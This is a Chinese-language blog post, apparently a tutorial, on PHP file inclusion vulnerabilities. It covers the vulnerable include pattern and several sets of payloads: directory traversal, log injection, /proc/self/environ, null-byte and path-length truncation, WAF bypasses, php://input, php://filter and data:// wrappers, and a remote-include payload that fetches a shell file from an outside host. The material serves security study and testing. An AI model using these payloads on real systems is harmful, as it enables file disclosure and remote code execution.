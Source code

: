 ```yaml
---

title: 文件包含

date: 2023-12-26 02:01:50

tags:

---
```


# 文件包含

[TOC]



<!--more-->

## 基础

常见的文件包含漏洞的形式为 `<?php include("inc/" . $_GET['file']); ?>`

考虑常用的几种包含方式为

- 同目录包含 `file=.htaccess`
- 目录遍历 `?file=../../../../../../../../../var/lib/locate.db`
- 日志注入 `?file=../../../../../../../../../var/log/apache/error.log`
- 利用 `/proc/self/environ`

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

## 触发Sink

PHP

- - include

    在包含过程中出错会报错，不影响执行后续语句

- - include_once

    仅包含一次

- - require

    在包含过程中出错，就会直接退出，不执行后续语句

- require_once

## 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

### url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

### 特殊字符绕过

- 某些情况下，读文件支持使用Shell通配符，如 `?` `*` 等
- url中 使用 `?` `#` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

### %00截断

几乎是最常用的方法，条件是 `magic_quotes_gpc` 关闭，而且php版本小于5.3.4。

###  长度截断

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 `#define MAX_PATH 260`，其中第260个字符为字符串结尾的 `\0` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096 获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，`././././` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

### 伪协议绕过

- 远程包含: 要求 `allow_url_fopen=On` 且 `allow_url_include=On` ， payload为 `?file=[http|https|ftp]://websec.wordpress.com/shell.txt` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 `allow_url_include=On` ，payload为 `?file=php://input` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 `?file=php://filter/convert.base64-encode/resource=index.php` 的形式
- data: 使用data伪协议读取文件，payload为 `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=` 的形式，要求 `allow_url_include=On`

### 协议绕过

`allow_url_fopen` 和 `allow_url_include` 主要是针对 `http` `ftp` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。